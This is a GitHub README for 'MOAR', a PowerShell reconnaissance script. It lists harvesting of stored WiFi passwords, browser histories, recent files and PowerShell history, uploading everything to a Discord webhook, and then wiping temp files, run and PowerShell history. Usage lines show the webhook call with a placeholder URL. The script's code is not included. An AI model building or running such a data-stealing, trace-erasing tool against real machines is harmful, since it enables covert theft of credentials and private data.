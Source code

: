 # MOAR - Mother Of All Recons

MOAR is a PowerShell script built to gather an extensive amount of information about a Windows system. This includes but is not limited to, system configurations, network details, browsing history, recently accessed files, and much more.

## Features

- **Geolocation**: Fetches geolocation data based on the current IP.
- **Network Configuration**: Gathers details like IP, Default Gateway, DNS, and others.
- **Recent Files**: Retrieves the 50 most recently accessed files.
- **System Users**: Lists all the user accounts on the system.
- **Firewall and Antivirus Details**: Checks the status of the firewall and antivirus product details.
- **Wifi SSIDs and Passwords**: Gathers stored WiFi SSIDs and their corresponding passwords.
- **Computer Info**: Grabs a detailed list of computer specifications.
- **Process and App Details**: Lists all currently running processes and installed apps.
- **Browser Data**: Captures browser histories and bookmarks from popular browsers like Edge, Chrome, and Firefox.
- **Additional Data**: Retrieves additional details such as a tree structure of the user profile directory and PowerShell command history.
- **Upload to Discord**: Has the ability to upload all the gathered data to Discord via a webhook.

## Usage

To use the script, you must provide your Discord Webhook URL as a parameter to the main function `AR`. This will allow the script to send all the gathered data to the specified Discord channel.

```powershell
AR -wh 'YOUR_DISCORD_WEBHOOK_URL'
```

For example:

```powershell
AR -wh 'https://discord.com/api/webhooks/xxxx/yyyy'
```

## Precautions

- **Sensitive Data**: This script retrieves a large amount of sensitive data. Be sure to handle the output responsibly and securely.
- **Intended Use**: Only run this script on systems you have permission to. Unauthorized scanning and data collection is illegal and unethical.
- **Cleanup**: The script performs a cleanup at the end, including emptying the temp folder, deleting run box history, PowerShell history, and emptying the recycle bin.

